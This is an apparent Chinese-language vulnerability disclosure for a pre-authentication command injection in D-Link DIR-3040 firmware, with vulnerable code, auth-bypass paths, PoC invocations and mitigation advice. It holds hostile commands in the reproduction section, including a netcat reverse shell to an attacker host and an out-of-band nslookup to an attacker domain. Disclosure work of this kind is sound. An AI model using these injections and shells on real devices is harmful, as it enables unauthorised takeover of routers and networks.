

# CVE-2026-75360 — D-Link DIR-3040 (v1.11B02) 预认证远程命令注入

## 基本信息

| 项目 | 内容 |
| --- | --- |
| CVE 编号 | CVE-2026-75360 |
| 受影响产品 | D-Link DIR-3040（固件 v1.11B02，最新官方版本） |
| 漏洞类型 | CWE-78 OS Command Injection（预认证） |
| 攻击向量 | 网络（HTTP/HNAP，无需认证） |
| 执行上下文 | `FCGI_popen`（FastCGI 守护进程权限） |
| CVSS（参考） | 9.8（CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H） |
| PoC | [poc.py](./poc.py) |

## 漏洞概述

`/bin/prog.cgi` 通过 `/HNAP1/` 暴露的 `SetVirtualServerSettings` HNAP 处理器
将 `LocalIPAddress` 参数未过滤地拼入 shell 命令后经 `FCGI_popen` 执行：



```c
char cmd[64];
snprintf(cmd, sizeof(cmd),
         "arp | grep %s | awk '{printf $4}'", LocalIPAddress); // 未转义
FILE *fp = FCGI_popen(cmd, "r");        // ← sink
```

`LocalIPAddress` 来自 HNAP SOAP 请求体，无白名单/转义过滤，注入
`;cmd#` 即可执行任意命令。

## 认证绕过

1. **`withoutloginkey` 白名单**：固件对部分 HNAP Action 不校验登录态，
   `SetVirtualServerSettings` 在该白名单内（预认证）。
2. **出厂默认空密码**：`IsDefaultLogin=1` 允许空密码登录，进一步扩大面。

任一路径均满足“预认证（pre-auth）”判定。

## 载荷长度限制

注入点所在缓冲区为 **64 字节** `snprintf`，因此**有效载荷约 30 字符**，
命令需保持简短（如 `id`、`sleep 5`、`nc <ip> <port> -e/bin/sh`）。

## 复现（已在真实设备验证）

1. 构造 HNAP SOAP 请求（`SOAPAction: SetVirtualServerSettings`），
   `LocalIPAddress = ;<cmd>#`。
2. `FCGI_popen` 异步执行，HTTP 响应**不回显**命令输出（盲注）。
3. 验证方式：
   - **延时**：`sleep 5`，观察请求耗时。
   - **DNS OOB**：`nslookup <attacker>` 在外部日志确认。
   - **反弹 shell**：`nc <lhost> <lport> -e/bin/sh`。

```bash
python3 poc.py -t http://192.168.0.1 -c "sleep 5"
python3 poc.py -t http://192.168.0.1 -c "id"
python3 poc.py -t http://192.168.0.1 --bind --lhost 10.0.0.2 --lport 4444
```

## 与 CVE-2021-28144 的区别

| 对比项 | CVE-2021-28144 (DIR-3060) | CVE-2026-75360 (DIR-3040) |
| --- | --- | --- |
| 设备 | DIR-3060 | DIR-3040 |
| 认证 | 需认证 | **无需认证**（withoutloginkey + 空密码） |
| 代码路径 | SetVirtualServerSettings → CheckArpTables → popen | SetVirtualServerSettings 直接 → FCGI_popen |
| 长度限制 | 无 | ~30 字符（64B snprintf） |

## 影响

- 预认证任意命令执行，等同完全控制设备。
- 读取配置/凭据、植入后门、DoS、内网跳板。

## 缓解建议

- 厂商：从 `withoutloginkey` 白名单移除 `SetVirtualServerSettings`；
  强制非空强管理员密码；`LocalIPAddress` 改用 `execve` 参数化或严格 IP 校验。
- 用户：尽快升级；修改默认空密码；关闭 WAN 侧 HNAP 管理。

## 参考

- https://support.dlink.com/resource/PRODUCTS/DIR-3040/REVA/DIR-3040_REVA_FIRMWARE_v1.11B02.zip
- https://www.cve.org/CVERecord?id=CVE-2021-28144
